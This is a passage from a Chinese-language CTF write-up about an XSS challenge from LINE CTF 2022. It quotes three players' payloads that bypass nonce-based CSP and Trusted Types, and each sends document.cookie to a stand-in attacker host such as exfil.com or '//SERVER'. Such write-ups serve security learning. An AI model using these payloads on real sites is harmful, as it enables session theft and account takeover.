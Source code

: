 nickname 的部分可以設定成：`";f.submit();"` 之類的，就可以送出表單。改完之後再去造訪 profile 頁面，在那個頁面執行 XSS。

但最大的問題是 `"onfocus=eval(name) ` 有 20 個字元，超過了界線所以無法成功（而且還要想一下 name 要怎麼設定）。

賽後看了其他人的解答，主要有三種。

第一種來自 [Super HexaGoN](https://gist.github.com/mdsnins/d8028c47212342ecadd9af5ec10f53f9)，是利用一個神奇的 [script data double escaped state](https://www.w3.org/TR/2011/WD-html5-20110405/tokenization.html#script-data-double-escaped-state)，把兩個注入點中間的東西都註解掉，就可以在有 nonce 的 script 裡面執行程式碼。之前從沒看過這個，以後再來研究一下。

```
display name: <!--<script>"}/*
title: --> /*
content: */ location.href='(attacker)/c='+document.cookie
```





第二種是利用 [import 不會被 Trusted Types 檔的特性](https://microsoftedge.github.io/edgevr/posts/eliminating-xss-with-trusted-types/#script-loading-like-import)，底下 payload 來自 [maple3142](https://blog.maple3142.net/2022/03/27/line-ctf-2022-writeups/#haribote-secure-note)：

``` js
display name:
"+import(y)+"

title:
</script><a id=x href="//SERVER"></a>

content:
<a id=y href="data:text/javascript,open(x+`?`+document.cookie);alert()"></a>
```

第三種則是利用 iframe，在其他頁面執行程式碼（來自 eskildsen#8025）：

```
name:
";f.eval(p+"");"

title:
</script><iframe src="/p" name=f></iframe> 

content:
<a href="javascript:window.top.location='http://exfil.com/'+btoa(this.parent.document.cookie)" id=p name=p>payload</a> 
```

第三種是我唯一覺得自己有可能想到的，因為其他兩個我都不知道。

話說 `";f.eval(p+"");"` 跟 `<!--<script>"}/*` 恰巧都是 16 個字，我猜其中一個應該是非預期解，這就是 CTF 好玩的地方XD

然後這題真的很有趣而且很值得學習，三種解法都是完全不同的思路。

喔對了，然後 maple3142 的 writeup 解決了我一個疑惑，那就是為什麼這一題的 template 都不會 escape，原來是因為 flask 預設只會 escape HTML/XML/XHTML，難怪我沒看到什麼設定。

## title todo(6 solves)
